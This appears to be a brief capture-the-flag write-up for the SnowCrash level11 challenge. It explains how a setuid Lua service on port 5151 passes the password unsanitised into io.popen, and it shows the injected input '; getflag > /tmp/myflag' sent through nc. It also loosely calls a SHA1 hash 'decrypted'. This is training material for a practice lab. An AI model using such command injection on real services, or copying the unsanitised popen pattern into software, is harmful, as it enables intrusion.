 level11@SnowCrash:~$ ls -la
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua

.lua : Scripting Language used in video games, web applications, and embedded systems due to its small footprint and efficient execution.

in the level11.lua file :
f05d1d066fb246efe0c6f7d095f909a7a0cf34a0
which is "NotSoEasy" once decrypted with sha1sum

not the flag11 pass tho

lua: ./level11.lua:3: address already in use

so trying to connect with nc :
level11@SnowCrash:~$ nc 127.0.0.1 5151
requires password 

When we look into the lua file, there is this line :
prog = io.popen("echo "..pass.." | sha1sum", "r")
which executes whatever is passed as password, trying to put a getflag in there

; getflag doesn't work but with a redirection to a file we can fetch the token 

level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: ; getflag > /tmp/myflag
